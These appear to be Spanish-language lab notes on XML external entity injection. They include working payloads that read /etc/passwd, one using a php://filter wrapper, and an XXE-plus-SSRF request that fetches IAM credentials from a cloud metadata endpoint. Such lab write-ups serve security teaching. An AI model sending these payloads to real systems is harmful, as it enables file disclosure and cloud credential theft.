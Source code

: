 
## LAB 1

Este ataque surge al poder declarar una nueva entidad en nuestro código xml. La forma básica de este ataque es la siguiente:
<!DOCTYPE foo[ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
Aprovechamos el wrapper file://
Para luego llamar a la entidad xxe de la siguiente forma "&xxe;". El laboratorio quedaria de la siguiente manera:

```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo[ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```

Otra forma de crear una entidad para un XXE sería:

<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>

## LAB 2

En este lab explotamos un SSRF + XXE, tratamos de listar directorios y el ataque nos queda de la siguiente manera:

```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo[ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>

<stockCheck><productId>

&xxe;

</productId><storeId>1</storeId></stockCheck>
```

